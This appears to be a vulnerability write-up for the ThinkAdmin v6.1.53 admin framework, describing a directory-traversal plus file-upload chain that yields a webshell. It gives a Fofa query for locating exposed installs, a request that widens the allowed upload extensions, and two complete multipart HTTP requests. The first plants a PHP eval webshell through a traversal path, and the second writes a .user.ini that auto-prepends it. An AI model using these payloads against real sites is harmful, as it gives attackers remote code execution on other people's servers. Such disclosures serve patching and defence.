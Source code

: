 ThinkAdmin directory traversal+file upload getshell



Project Introduction

ThinkAdmin is a product that follows [MIT]（ https://mit-license.org/ ）Protocol open source rapid development framework, based on the latest version of  ThinkPHP6 , a minimalist backend management system (compatible with ThinkPHP8)

Official website: https://thinkadmin.top/



Audit version: ThinkAdmin Version v6.1.53
![img](file:///C:\Users\38123\AppData\Local\Temp\ksohtml17300\wps1.jpg)

 

Fofa : body="/admin/api.plugs/script"
![img](file:///C:\Users\38123\AppData\Local\Temp\ksohtml17300\wps2.jpg)

Vulnerability: Directory traversal+file upload=getshell
Install Composer on the official website
After installation, log in and enter the background
Firstly, set the uploadable suffix for the backend

![image-20231116184032885](C:\Users\38123\AppData\Roaming\Typora\typora-user-images\image-20231116184032885.png)

http://localhost/admin/config/storage.html?spm=m-1-2-3
param：storage%5Bname_type%5D=xmd5&storage%5Blink_type%5D=none&storage%5Ballow_exts%5D=doc%2Cgif%2Cico%2Cjpg%2Cmp3%2Cmp4%2Cp12%2Cpem%2Cpng%2Czip%2Crar%2Cxls%2Cxlsx%2Chtaccess%2Cini&storage%5Blocal_http_protocol%5D=follow&storage%5Blocal_http_domain%5D=&storage%5Btype%5D=local

![image-20231116184045081](C:\Users\38123\AppData\Roaming\Typora\typora-user-images\image-20231116184045081.png)

First upload a Trojan with any file content as webshell

`POST /admin/api.upload/file HTTP/1.1

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCUB3l9pNDT4UzMSU

Cookie: user cookie

Host: IP：PORT

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="key"

 

..\./1.zip

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="safe"

 

0

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="uptype"

 

local

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="file"; filename="1.zip"

Content-Type: image/png

 

<?php @eval($_POST[1]);?>

------WebKitFormBoundary3VyVEPpvQynFo76H--`

![image-20231116184205379](C:\Users\38123\AppData\Roaming\Typora\typora-user-images\image-20231116184205379.png)

Construct Payload Upload

http://localhost/admin/api.upload/file

`POST /admin/api.upload/file HTTP/1.1

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCUB3l9pNDT4UzMSU

Cookie: user cookie

Host: IP：PORT

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="key"

 

..\./.user.ini

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="safe"

 

0

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="uptype"

 

local

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="file"; filename="1.ini"

Content-Type: image/png

 

auto_prepend_file=1.zip

------WebKitFormBoundary3VyVEPpvQynFo76H--`

![image-20231116184237606](C:\Users\38123\AppData\Roaming\Typora\typora-user-images\image-20231116184237606.png)

![image-20231116184242352](C:\Users\38123\AppData\Roaming\Typora\typora-user-images\image-20231116184242352.png)

You can see that everything has been uploaded successfully

![img](file:///C:\Users\38123\AppData\Local\Temp\ksohtml17300\wps3.jpg) 

 

Webshell also successfully parsed